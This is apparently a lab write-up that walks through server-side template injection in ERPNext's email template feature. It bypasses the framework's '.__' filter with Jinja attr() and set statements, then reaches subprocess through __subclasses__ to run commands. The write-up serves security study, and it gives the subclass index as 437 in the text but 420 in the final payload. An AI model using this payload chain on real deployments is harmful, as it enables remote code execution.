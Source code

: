 ## Discovering the Rendering Function
To start to look for templates, we can simply search for "templates" in the administrator login that we've achieved.
The search leads us to "Email Template List".
A page that allows users of ERPNext, to view and create email templates used throughout the application:

![](../../03.%20Screenshots/t5-ss38.png)

Here, we'll insert our SSTI payload in the response field, save the details, and view the template from a user's perspective:

![](../../03.%20Screenshots/t5-ss39.png)

We see the answer 49.
Having confirmed that we can use a basic Jinja template in an email template, we can attempt to build our SSTI payload.

Now that we can easily inspect the output, let's start building our payload. We will replace the "{{7\*7}}" in the template with 
```python
{{ ''.__class__ }} 
```
to determine if we can replicate accessing the class of an empty string as we did in the Python console.

Looking at the response:

![](../../03.%20Screenshots/t5-ss40.png)

We see that we get an error.
To determine why we are running into this, we can look for the error and explore the get_email_template function.
Which leads us to the apps/frappe/frappe/email/doctype/email_template/email_template.py directory.

![](../../03.%20Screenshots/t5-ss41.png)

Reading the function, we see that, before the function is defined, tells Frappe that this method is whitelisted and can be executed via an HTTP request.
Moreover, If the doc argument passed to isinstance function, is a string, the string is deserialized as JSON into a Python object.
Furthermore, the email_template variable is defined, and finally, the next lines render the subject and the body of the template.

To understand why the error is occurring, we can understand the render_template function, which is located in apps/frappe/frappe/utils/jinja.py:

![](../../03.%20Screenshots/t5-ss42.png)

The important part of the function is the if statement:

![](../../03.%20Screenshots/t5-ss43.png)

It seems that the developers have thought about the SSTI issue and attempted to curb any issues by filtering the 
```
".__"
```
characters.
However, we can bypass this.


## SSTI Filter Evasion
Jinja offers one interesting feature called filters.
An example of a filter is the attr() function, which is designed to "get an attribute of an object".
While the filter is expecting the attribute to be accessed with a period followed by two underscores, we could rewrite the payload to use Jinja's syntax, making the "." unnecessary as follows:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
```

The string variable will replace the two single quotes ('') in the original payload. The rest of the values are the various attributes from the SSTI payload.
Now we can start building the SSTI payload string in the email template builder under the defined variables.

We start by getting the class using "{{string|attr(class)}}":

![](../../03.%20Screenshots/t5-ss44.png)

As a result, we get the str class.
Now that we have bypassed the SSTI filtering, we can proceed to get code execution.


## Getting Code Execution
With our filter bypass in place, we can start to use mro, and discover what class and subclass we can use to get code execution.
We start with the following payload:
```python
{{string|attr(class)|attr(mro)}}
```

The response shows us the mro of the class:

![](../../03.%20Screenshots/t5-ss45.png)

If we try to access the index, we get the following error:

![](../../03.%20Screenshots/t5-ss46.png)

This is because Jinja syntax does not work with "\[" characters after a filter.

To do this, we need to change the double curly braces "{{" and "}}" that are used for expressions in Jinja to a curly brace followed by a percentage sign ("{%" and "%}"), which is used for statements. 
We also need to set a variable using the "set" tag and provide a variable name. 
Finally, we need to make a new expression to access index 1:
Our payload will look like this:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{{ mro_r[1] }}
```

![](../../03.%20Screenshots/t5-ss47.png)

With this, we can access the object class.
Now, we need to access subclasses, for that we'll do something similar and our payload will look like so:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r }}
```

The response is as follows:

![](../../03.%20Screenshots/t5-ss48.png)

We get a large list of subclasses that can be accessed and used.
We go through these subclasses, and notice an interesting one which will help us with code execution.

The subprocess class allows us to spawn new processes, connect to their input/output/error pipes, and obtain their return codes:

![](../../03.%20Screenshots/t5-ss49.png)

This means, that the subprocess class can be accessed by index 437, thus our new payload will be:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[437] }}
```

![](../../03.%20Screenshots/t5-ss50.png)

With this, we can pass the arguments, and get code execution with the following payload:

```python
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420](["/usr/bin/touch","/tmp/test"]) }}
```

Executing the payload, we find our test file, inside the tmp directory, this means we have code execution:

![](../../03.%20Screenshots/t5-ss51.png)